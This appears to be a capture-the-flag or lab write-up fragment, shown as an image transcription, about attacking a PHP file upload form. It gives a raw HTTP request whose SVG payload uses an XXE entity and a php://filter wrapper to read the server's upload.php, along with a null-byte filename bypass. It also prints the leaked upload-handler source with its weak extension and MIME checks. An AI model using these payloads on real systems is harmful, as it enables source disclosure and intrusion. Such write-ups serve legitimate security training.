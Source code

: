 ```
POST /contact/upload.php HTTP/1.1
Host: 83.136.253.251:34678
User-Agent: Mozilla/5.0 (Windows NT 10.0; rv:102.0) Gecko/20100101 Firefox/102.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://83.136.253.251:34678/contact/
X-Requested-With: XMLHttpRequest
Content-Type: multipart/form-data; boundary=---------------------------10019983334881342564128806157
Content-Length: 387
Origin: http://83.136.253.251:34678
DNT: 1
Connection: close

-----------------------------10019983334881342564128806157
Content-Disposition: form-data; name="uploadFile"; filename="w0rth.phar%00.jpeg"
Content-Type: image/png

<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE svg [ <!ENTITY xxe SYSTEM "php://filter/convert.base64-encode/resource=upload.php"> ]>
<svg>&xxe;</svg>
-----------------------------10019983334881342564128806157--

```

```php
$target_dir = "./user_feedback_submissions/";

// rename before storing
$fileName = date('ymd') . '_' . basename($_FILES["uploadFile"]["name"]);
$target_file = $target_dir . $fileName;

// get content headers
$contentType = $_FILES['uploadFile']['type'];
$MIMEtype = mime_content_type($_FILES['uploadFile']['tmp_name']);

// blacklist test
if (preg_match('/.+\.ph(p|ps|tml)/', $fileName)) {
    echo "Extension not allowed";
    die();
}

// whitelist test
if (!preg_match('/^.+\.[a-z]{2,3}g$/', $fileName)) {
    echo "Only images are allowed";
    die();
}

// type test
foreach (array($contentType, $MIMEtype) as $type) {
    if (!preg_match('/image\/[a-z]{2,3}g/', $type)) {
        echo "Only images are allowed";
        die();
    }
}

// size test
if ($_FILES["uploadFile"]["size"] > 500000) {
    echo "File too large";
    die();
}

if (move_uploaded_file($_FILES["uploadFile"]["tmp_name"], $target_file)) {
```